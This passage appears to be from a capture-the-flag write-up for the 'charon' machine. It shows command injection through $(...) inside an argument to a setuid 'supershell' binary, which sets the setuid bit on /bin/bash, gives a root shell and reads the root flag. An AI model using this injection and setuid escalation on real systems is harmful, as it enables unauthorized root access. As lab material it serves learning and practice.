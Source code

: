 doing a "strings" on supershell I find that the only command allowed is /bin/ls, but I'm able to inject commands 

```bash
decoder@charon:/usr/local/bin$ ./supershell '/bin/ls $(touch file)'
Supershell (very beta)
++[/bin/ls $(touch file)]
file  supershell
decoder@charon:/usr/local/bin$ ls
file  supershell
decoder@charon:/usr/local/bin$ 
```

This allows me to get a shell as root by setting the suid privilege on /bin/bash

```bash
decoder@charon:/usr/local/bin$ ./supershell '/bin/ls $(chmod u+s /bin/bash)'
Supershell (very beta)
++[/bin/ls $(chmod u+s /bin/bash)]
file  supershell
decoder@charon:/usr/local/bin$ bash -p
bash-4.3# id
uid=1001(decoder) gid=1001(freeeze) euid=0(root) groups=1001(freeeze)
bash-4.3# cat /root/root.txt 
f812af812a
```


